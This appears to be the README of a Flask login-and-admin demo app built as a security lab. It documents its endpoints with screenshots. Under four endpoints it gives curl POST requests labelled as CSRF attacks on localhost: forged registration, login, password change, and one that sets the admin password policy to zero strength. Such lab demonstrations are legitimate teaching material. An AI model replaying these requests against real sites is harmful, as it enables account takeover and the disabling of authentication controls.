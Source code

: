 # Safe Register & Login Administration

__Safe mode for Demonstration.__

Build with:

__BACKEND:__ _Python 3.9 & Flask_

__FRONTEND:__ _JS, HTML & CSS_

__INTEGRATIONS:__ _Jinja2_

Deployed over Docker inorder to contain a safety lab environment

_PLEASE TAKE NOTICE:_ __runs only with Chrome & Modzilla only__ 

## Endpoints

**Home**

**User**

* Registration
* Login
* Change Password
* Logout

**Admin**

* Admin's Menu
    * View all Users List
    * Change Password Configuration

## Home

endpoint: `/`\
![Home](https://user-images.githubusercontent.com/71320956/132021532-a0627e90-6b8b-4986-b463-d527121cdbd1.png)


## User

### Register

User Register by given _Name_, _E-mail_, _Password_ and _re-Password_

__methods:__ `GET`, `POST`\
__endpoint:__ `/users/register`
![Register](https://user-images.githubusercontent.com/71320956/132022005-2f2ef168-eca6-4b47-be77-e3874cc761c7.png)


__CSRF attack on endpoint:__
````
$ curl -X POST -F 'username=Hacker' -F 'email=yougot@HACKED.com' 
-F 'password=AAaa1212@!12' -F 're_password=AAaa1212@!12' 
http://127.0.0.1:5000/users/register
````
__Result of attack:__\
![ResultRegiser](https://user-images.githubusercontent.com/71320956/131083301-c028f6b0-aef1-4eda-a506-fea45ac57e01.png)


### Login

User Login by given _Username_ and _Password_

__methods:__ `GET`, `POST`\
__endpoint:__ `/users/login`

![Login](https://user-images.githubusercontent.com/71320956/132021786-a0692f42-5684-443d-9e47-1c41ade33482.png)

_After Admin's Login:_
![AfterLogin](https://user-images.githubusercontent.com/71320956/132022864-cac3f1af-64ec-478e-8945-4e82090f8c2d.png)


__CSRF attack on endpoint:__
````
$ curl -X POST -F 'name_email=Hacker' -F'password=AAaa1212@!12' 
http://127.0.0.1:5000/users/login
````
__Result of attack:__\
![ResultLogin](https://user-images.githubusercontent.com/71320956/131083477-de7f2399-6bdb-4a78-a9b5-997f5c92fecb.png)

### Change Password

User Change Password by given _Username_, _E-mail_, _New Password_ and _re-Password_

__methods:__ `GET`, `POST`\
__endpoint:__ `/users/change_password`

![ChangePassword](https://user-images.githubusercontent.com/71320956/132022600-dc246f61-4f28-44cd-b211-d8e4a6c5473d.png)
__CSRF attack on endpoint:__
````
$ curl -X POST -F 'username=Hacker' -F 'email=yougot@HACKED.com' 
-F 'password=BBbb1212@!12' -F 're_password=BBbb1212@!12' 
http://127.0.0.1:5000/users/change_password
````
__Result of attack:__\
![ResultChangePassword](https://user-images.githubusercontent.com/71320956/131084746-01e2fa5d-c966-406f-a5be-6a1f1a1d4e51.png)

### Logout

User Logout

__methods:__ `GET`\
__endpoint:__ `/users/logout`
![Logout](https://user-images.githubusercontent.com/71320956/132023375-5e99e325-8b4d-4442-8b9b-710505dfeb8a.png)

## Admin

### Admin's Menu

__methods:__ `GET`\
__endpoint:__ `/admin/menu`

![AdminMenu](https://user-images.githubusercontent.com/71320956/132023684-0d6a389c-528a-430b-95b1-f89cc7cc7581.png)

### User's List

Display all registered users & __Block/Unblock__ users

__methods:__ `GET`\
__endpoint:__ `/admin/all_users`

![UsersList](https://user-images.githubusercontent.com/71320956/132024331-fa5fb0f4-97ba-42c1-afe2-a515b37d6e4b.png)

### Password Configuration

Change password configuration:

* Length
* Complexity
* History
* Fail attempts

__methods:__ `GET`, `POST`\
__endpoint:__ `/admin/password_config`

![PasswordConfiguration](https://user-images.githubusercontent.com/71320956/132024704-0e2f0304-a427-4671-9132-be957b3d5477.png)

__CSRF attack on endpoint:__
````
$ curl -X POST -F 'upper=0' -F 'lower=0' -F 'digits=0' 
-F 'spec=0' -F 'use_dict=0' -F 'length=0' -F 'history=10' 
-F 'tries=1000'  http://127.0.0.1:5000/admin/password_config
````
__Result of attack:__\
![ResultChangePassword](https://user-images.githubusercontent.com/71320956/131085277-0d0d257f-2e7e-4e15-a4d5-57a06e3adf1f.png)
